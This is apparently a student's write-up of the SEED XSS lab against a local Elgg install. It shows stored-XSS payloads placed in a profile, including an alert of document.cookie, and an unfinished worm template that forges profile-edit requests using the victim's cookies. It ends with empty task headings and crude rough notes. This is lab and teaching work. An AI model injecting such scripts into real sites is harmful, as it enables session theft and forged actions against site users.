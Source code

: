 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup.image/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

To accomplish this we've developed the following JavaScript code.

```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the
details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  















Login as samy

email: samy
password: seedsamy

place xss code in profile

```html
<script>alert('xss');</script>
```


do the cookie thing



login as charlie and watch the http headers for adding someone as a friend.

do that shit in javascript and then embed the code in someone elses profile after it done.
